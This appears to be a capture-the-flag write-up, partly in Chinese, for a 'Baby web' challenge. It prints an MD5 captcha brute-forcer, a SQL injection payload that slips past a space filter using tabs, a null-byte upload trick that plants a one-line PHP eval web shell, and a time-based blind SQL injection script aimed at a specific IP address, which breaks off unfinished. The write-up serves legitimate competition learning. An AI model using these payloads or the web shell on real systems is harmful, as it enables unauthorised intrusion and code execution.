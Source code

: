 `md5.py` for the captcha:

```python
import hashlib

i = 0
while True:
    hex = hashlib.md5(str(i).encode()).hexdigest()
    if hex.startswith('f601a2'):
        print(i)
        break
    i+=1
```

### Baby web

#### Part 1

按照hint找出过滤的内容后根据给出的source code针对性地注入即可。

过滤字符应该有：空格 , and or / && || (case insensitive)

未过滤字符有：mid substr ascii hex bin select user from where union like limit

```python
import clipboard

inject = r"a'union select 2 - '".replace(' ', chr(int('09', base=16)))
clipboard.copy(inject)
```

#### Part 2

成功登录后，并没有flag，提示可以上传图片。利用搜索引擎可以发现`0x00`截断法，使用*Burp Suite*拦截post请求，将`pa.phtml.png`的第二个`.(0x2E)`改为`0x00`，最终服务端的文件名为`pa.phtml`，访问此文件即可完成攻击。

`pa.phtml`:

```php
<?php @eval($_POST['c']);?>
```

#### Addition

放上一个用处不大的基于时间的盲注代码:

```python
import timeit
import requests


def measure_time(block):
    begin = timeit.default_timer()
    block()
    return timeit.default_timer() - begin

def send(pos, condition):
    inject = r"select(username)from`user`where(username='admin')".replace(
        ' ', chr(int('0a', base=16)))
    response = requests.post(
        r'http://111.186.57.85:10024/admin_l0gin_page.php',
        {'username': f"a'-(case((ascii(mid(({inject})from({pos}))){condition}))when(1)then(sleep(1))else(0)end)-'",
         'password': ''})
    return response

def blind(pos):
    s = ''
    a = 0
```